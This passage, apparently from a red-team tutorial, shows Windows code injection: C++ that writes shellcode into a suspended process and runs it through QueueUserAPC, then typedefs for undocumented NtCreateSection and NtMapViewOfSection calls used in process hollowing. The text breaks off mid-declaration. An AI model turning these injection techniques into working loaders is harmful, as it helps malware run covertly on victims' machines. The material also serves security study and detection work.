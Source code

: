 ```
// copy shellcode
SIZE_T bytesWritten = 0;
WriteProcessMemory(
    process_info->hProcess,
    ptr,
    &shellcode[0],
    shellcode.size(),
    &bytesWritten);

// queue apc
QueueUserAPC(
    (PAPCFUNC)ptr,
    process_info->hThread,
    0);

// resumme process
ResumeThread(process_info->hThread);

// close handles
CloseHandle(process_info->hThread);
CloseHandle(process_info->hProcess);
```

## NtMapViewOfSection

Nt section of APIs are synonymous with the process hollowing technique. Works by starting a process in a suspended state, unmapping the PE content from memory and then mapping anew PE in its place. "Proper" process hollowing is mapping each data section, import table, and relocations appropriately. This will be covered in the CS reflective loader, for now an example with NtCreateSection and NtMapViewOfSection can be used as alternatives for VirtualAllocEx and WiretProcessMemory. 

Only a limited number of Nt APIs are officially exposed and most of them via Windows driver header files. The Nt APIs are also largely undocumented. To use them in a user-application, we need to define them in our own header file. A lot of work has been put in to reversing and documenting these APIs and structs here are the resources: https://undocumented.ntinternals.click/, https://www.geoffchappell.com/, https://github.com/winsiderss/phnt.

Create a new header file in your project and add the following:

```
#pragma once

using NtCreateSection = NTSTATUS(NTAPI*)(
OUT PHANDLE SectionHandle,
IN ULONG DesiredAccess,
IN OPTIONAL POBJECT_ATTRIBUTES ObjectAttributes,
IN OPTIONAL PLARGE_INTEGER MaximumSize,
IN ULONG PageAttributes,
IN ULONG SectionAttributes,
IN OPTIONAL HANDLE FileHandle);

using NtMapViewOfSection = NTSTATUS(NTAPI*)(
IN HANDLE SectionHandle,
IN HANDLE ProcessHandle,
IN OUT PVOID* BaseAddress,
IN ULONG_PTR ZeroBits,
IN SIZE_T CommitSize,
IN OUT OPTIONAL PLARGE_INTEGER SectionOffset,
IN OUT PSIZE_T ViewSize,
IN DWORD InheritDisposition,
IN ULONG AllocationType,
IN ULONG Win32Protect);

using NtUnmapViewOfSection = NTSTATUS(NTAPI*)(
```